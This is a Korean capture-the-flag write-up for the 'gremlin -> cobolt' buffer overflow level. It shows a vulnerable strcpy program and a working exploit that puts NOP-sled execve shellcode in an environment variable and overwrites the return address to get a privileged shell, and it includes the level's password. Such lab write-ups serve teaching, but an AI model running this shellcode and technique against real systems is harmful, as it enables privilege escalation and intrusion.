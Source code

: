# gremlin -> cobolt

cobolt.c는 아래와 같다.
``` C
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
앞선 문제와 비슷하다고 생각하여 똑같은 방법으로 풀려 했으나 24byte인 쉘코드보다 작은 버퍼를 가지고 있어서 다른 방법을 고민해 보았다.
검색을 해 보니 환경변수를 이용하여 쉘을 획득할 수 있다고 하였다.
``` C
#include<stdio.h>

int main(void)
{
        printf("%p\n", getenv("shellcode"));
        return 0;
}
```
```
[gremlin@localhost gremlin]$ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
```
위의 코드들을 통해 쉘코드를 환경변수에 등록하였다.
```
[gremlin@localhost gremlin]$ ./Address
0xbffffef7
```
쉽게 쉘 코드를 실행할 수 있는 주소를 획득할 수 있다.   
payload는 NOP * 20 + \xf7\xfe\xff\xbf 이다.
```
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\xf7\xfe\xff\xbf"'`
÷þÿ¿
bash$ my-pass
euid = 502
hacking exposed
```
